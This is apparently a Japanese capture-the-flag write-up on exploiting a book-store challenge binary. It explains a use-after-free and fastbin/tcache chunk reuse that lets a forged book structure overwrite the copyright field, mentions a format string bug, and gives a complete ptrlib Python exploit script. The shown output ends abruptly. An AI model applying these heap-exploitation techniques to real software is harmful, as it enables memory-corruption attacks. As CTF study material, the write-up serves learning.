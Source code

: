 ```c
free(books[i]);
num_books--;
```
`view_books`で名前や価格をjson形式で見ることができます。
ただCopy rightsの表示にFormat String Bugがあります。

本を削除してもグローバル変数`books`にはポインタが残っているので、再び使用されるとviewで内容を見ることができます。
なので、fastbins(tcache?)のリンクを上手いこと調節してやれば、削除した本のcopy rightsに本のタイトル(books[i]->name+0x18)を表示させることができ、Format String Exploitができるかもしれません。

まず名前サイズ0xf8と0x38の本を作り、それぞれのindexは0と1です。
1,0の順番なら削除でき、このときfastbinは
```
fastbin[2] --> (books[0]) --> (books[1]) --> (books[1]->name)
```
となっているはずです。
この状態で名前サイズ0x38の本を1つ確保すると
```
books[2] = books[0]
books[2]->name = books[1]
```
となります。
一方viewからは`books[1]`が未だ使われているので、`books[2]`で上書きされた構造体が使われることになります。
したがって、`books[2]`の名前に`st_book`構造体と同じ形のデータを入れればcopy rightを自由に変更できるでしょう。
```python
from ptrlib import *

def add(size, name, price):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("length: ")
    sock.sendline(str(size))
    sock.recvuntil("name: ")
    sock.send(name)
    sock.recvuntil("price: ")
    sock.sendline(str(price))

def remove(index):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("index: ")
    sock.sendline(str(index))

def view():
    sock.recvuntil("> ") 
    sock.sendline("3")
    print(bytes2str(sock.recvuntil("(4) Check out")))

elf = ELF("./challenge")
sock = Process("./challenge")

payload = p64(0)
payload += p64(elf.symbol("cp_stmt"))
payload += p64(1337)
payload += b"Hello, World!\x00"
add(0xf8, "B", 123)
add(0x38, "A", 123)
remove(1)
remove(0)
add(0x38, payload, 123)
view()
```
実行すると、本来変更できないrightsが変更できています。
```
{
```